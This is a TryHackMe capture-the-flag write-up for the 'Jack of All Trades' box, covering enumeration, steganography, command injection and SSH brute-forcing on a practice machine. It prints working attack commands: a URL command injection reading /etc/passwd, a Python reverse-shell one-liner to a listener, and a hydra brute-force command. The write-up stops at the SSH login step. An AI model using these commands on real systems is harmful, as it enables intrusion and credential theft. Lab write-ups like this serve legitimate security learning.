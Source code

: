 # 'Jack-of-All-Trades' box writeup
## Jack of All Trades is a CTF box written by MuirlandOracle and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [How to allow restricted ports](https://support.mozilla.org/en-US/questions/1083282#answer-780274)
## ![bg](images/backgroundjack.jpeg?raw=true "Title")
+ **We deploy the machine and start with an nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.252.248``
      
+ **We can see 2 open ports with some services: ssh and http. The first strange thing is that the services are opened on reversed ports. Ssh is opened on the 80 ports and http on the 22 one**

![1](images/nmap_scan_jack.jpg?raw=true "Nmap_scan")

+ **Let's try to get to the http web-site on the 22 port. We see an browser error: seems like Firefox has canceled our request for kind of security. That's because the unusual use of 22 port for the http service**

![2](images/restrict.jpg?raw=true "restrict")

**We can allow this restricted port making some configuration inside the mozilla browser. [Allow restricted ports](https://support.mozilla.org/en-US/questions/1083282#answer-780274). Go into the about:config page in the url, search for the ports and add the network.security.ports.banned.override string, with the 22 value**

![3](images/add_string.png?raw=true "add_string")

![4](images/welcome.png?raw=true "welcome")

**We can see our main page, with the box title and some images in there. Let's scan with gobuster too**

``gobuster dir -u http://10.10.252.248:22/ -w /usr/share/wordlists/dirb/common.txt``

![5](images/gobust.jpg?raw=true "gobust")

+ **Let's take a look into our gobuster output. Let's visit the assets page; we can see some *jpg* files, one of them called** stego.jpg **so we can think about an encrypted image with the help of steganography**

![6](images/assets.jpg?raw=true "assets")

+ **We can try to extract the stego image to see de hidden data, so we're gonna use steghide**

``steghide --extract -sf stego.jpg``

**A passphrase is requested, so we cannot immediately decrypt the image, but we can continue to enumerate the http page. Let's take a look into the source code of the page**

+ **We can spot a message left in the source code of the page: a recovery message which tells us we can connect on the /recovery.php page and there's also a base64 encoded message**

![7](images/base64.jpg?raw=true "base64")

**Let's try to decrypt our message**

``echo "UmVtZW1iZXIgdG8gd2lzaCBxxxxxxxxxx" | base64 -d``

![8](images/decrypt.jpg?raw=true "base64")

**We got a message and a password too! Let's use it to decrypt the image with steghide**

![9](images/first_steg.jpg?raw=true "first_steg")

+ **A creds.txt file was hidden inside, but the stego.jpg wasn't the good path. Let's download the other images from the assets page and extract them**

![10](images/real_steg.jpg?raw=true "real_steg")

``steghide --extract -sf header.jpg``

**Bingo! We got a username and a password inside the header.jpg image. Let's go to the /recovery.php page and try to login with the credentials**

+ **Logging in with our credentials on the page, we are redirected to a page with the message:**

``GET me a 'cmd' and I'll run it for you Future-Jack.``

![11](images/login.jpg?raw=true "login")

**Now, let's try some system commands inside the url:**

``http://10.10.252.248:22/nnxhweOV/index.php?cmd=cat /etc/passwd``

![cmd](images/cmdworks.jpg?raw=true "cmd")

+ **It's all working, so go grab a reverse shell. I'm gonna use python and start listen with nc**

``nc -lvnp 1234``

``http://10.10.252.248:22/nnxhweOV/index.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

![12](images/access.jpg?raw=true "access")

**Here we got our access into the system. Let's spawn an interactive shell with python and continue to enumerate**

``python -c 'import pty; pty.spawn("/bin/bash")'``

+ **Looking into the /home directory, we can see a** ``jacks_password_list`` **file which seems to be a password list for the jake user. According to the second service opened, on the 80 port, the ssh service, we're gonna try to bruteforce the login with the given wordlist and with the help of the Hydra tool**

![13](images/jackspassw.jpg?raw=true "jacks")

+ **Firstly, we need to download the** ``jacks_password_list`` **file to our machine. Open a python server on the Jack box and we're gonna get the file on our's**

**The Jack box**

``www-data@jack-of-all-trades:/home$ python -m SimpleHTTPServer 6999``

**Our machine**

``{kali@kali:Jack of All Trades_0}$ wget 10.10.252.248:6999/jacks_password_list``


+ **Now, having the wordlist, let's start the bruteforce phase. Don't forget to set the port for the ssh service, because it's not on the default (22), but the 80 one**

``hydra -s 80 -v -V -l jack -P jacks_password_list -t 8 10.10.252.248  ssh``

![13](images/hydra(1).jpg?raw=true "hydra")

**Let's connect into the ssv server with our credentials**












